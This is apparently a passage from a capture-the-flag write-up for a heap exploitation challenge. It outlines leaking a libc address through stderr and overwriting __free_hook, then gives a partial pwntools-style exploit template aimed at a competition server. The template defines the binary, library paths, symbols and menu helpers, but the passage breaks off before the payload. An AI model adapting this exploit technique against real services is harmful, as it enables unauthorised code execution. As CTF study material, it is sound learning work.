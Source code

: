 after we malloc to stderr, libc address will be leaked. then we just overwrite `__free_hook`.

# solve

before you read this, make sure you understand what I wrote in section 0.

## step 1

alter the template for this challenge in the editor.

```python
#https://github.com/matrix1001/welpwn
from PwnContext import *

try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')

if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h']
    context.log_level = 'debug'
    # functions for quick script
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    # misc functions
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))

    ctx.binary = './pwn'
    ctx.custom_lib_dir = '/root/share/project/glibc-all-in-one/libs/2.27-3ubuntu1_amd64'
    ctx.remote = ('172.16.9.21', 9006)
    ctx.debug_remote_libc = True
    
    ctx.symbols = {
        'lst':0x2022a0,
        'stderr':202160,
    }

    def add(idx, sz, content):
        sl(1)
        sla('index', idx)
        sla('size', sz)
        sa('write', content)
    
    def remove(idx):
        sl(2)
        sla('index', idx)
```
